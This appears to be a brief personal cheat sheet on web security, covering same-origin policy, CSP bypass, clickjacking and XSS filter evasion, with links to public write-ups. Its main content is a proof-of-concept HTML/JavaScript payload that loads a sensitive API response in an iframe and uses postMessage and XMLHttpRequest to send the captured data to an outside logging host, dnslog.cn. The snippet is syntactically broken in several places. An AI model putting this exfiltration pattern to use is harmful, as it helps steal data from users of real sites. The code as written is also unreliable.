 # Striction
## SOP
## CSP
Content-Security-Policy
- [Bypass of CSP](https://csplite.com/csp320/)
- data protocol allowed: xss by iframe, combining postMessage to steal info
```
<html>
<body>
<iframe id='attack' src="http"//get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```
- [ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)
- [postMessage XSS on a million sites](https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/)

# Filter
- keyword
- characteristic
  - [iframe srcdoc](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp.md#iframes-in-xss)
  - /xxx/.source
- 
